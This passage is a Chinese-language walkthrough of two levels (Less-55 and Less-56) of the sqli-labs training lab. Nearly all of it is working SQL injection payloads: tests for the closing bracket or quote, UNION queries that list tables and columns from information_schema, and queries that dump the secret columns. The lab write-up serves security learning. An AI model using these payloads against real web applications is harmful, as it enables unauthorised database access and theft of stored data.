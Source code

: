 ![107](/medias/sqli-labs/107.png)


## Less-55

测试后台闭合方式

```sql
?id=0) or 1=1%23
```

![108](/medias/sqli-labs/108.png)

爆表、爆字段

```sql
?id=0) union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),(select group_concat(column_name) from information_schema.columns where table_schema=database())%23
```

![109](/medias/sqli-labs/109.png)

爆数据

```sql
?id=0) union select 1,2,(select group_concat(id,'-----',sessid,'-----',secret_3182,'-----',tryy) from B77BC4ZQI3)%23
```

![110](/medias/sqli-labs/110.png)


## Less-56

测试后台闭合方式

```sql
?id=0') or 1=1%23
```

![111](/medias/sqli-labs/111.png)


爆表、爆字段

```sql
?id=0') union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),(select group_concat(column_name) from information_schema.columns where table_schema=database())%23
```

![112](/medias/sqli-labs/112.png)

爆数据

```sql
?id=0') union select 1,2,(select group_concat(id,'-----',sessid,'-----',secret_8N8A,'-----',tryy) from 07Z057A61B)%23
```
